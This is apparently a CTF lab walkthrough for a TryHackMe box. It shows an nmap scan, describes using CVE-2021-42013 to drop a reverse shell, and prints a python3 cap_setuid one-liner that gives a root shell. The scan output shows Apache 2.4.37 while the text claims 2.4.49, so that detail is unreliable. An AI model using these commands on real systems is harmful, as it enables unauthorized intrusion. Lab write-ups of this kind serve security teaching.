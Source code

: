 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx ohmywebserver.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV ohmywebserver.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
Service Info: OS: Unix
```

# HTTP (port 80)
by exploring the website and doing a feroxbuster, we found nothing interesting\
but if we look at the apache version, it's 2.4.49 : it's vulnerable to a remote command execution (CVE-2021-42013)\

so we use a script to first curl and get a shell.py reverse shell in /tmp and then execute the script
```
daemon@4a70924bafa0:/bin$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```
so we are daemon\
if we look at capabilities, we found out there is a capability on python3 to set a uid
```
daemon@4a70924bafa0:/bin$ getcap / -r 2>/dev/null
/usr/bin/python3.7 = cap_setuid+ep
daemon@4a70924bafa0:/bin$
```

let's exploit it with the following command
```
daemon@4a70924bafa0:/bin$ python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
root@4a70924bafa0:/bin#
```

now we are root, there is a user.txt in /root/user.txt\
we see we are at the ip 172.17.0.2 so seems the host is under 172.17.0.1; let's try to nmap it by curl a nmap amd64 to the victim machine
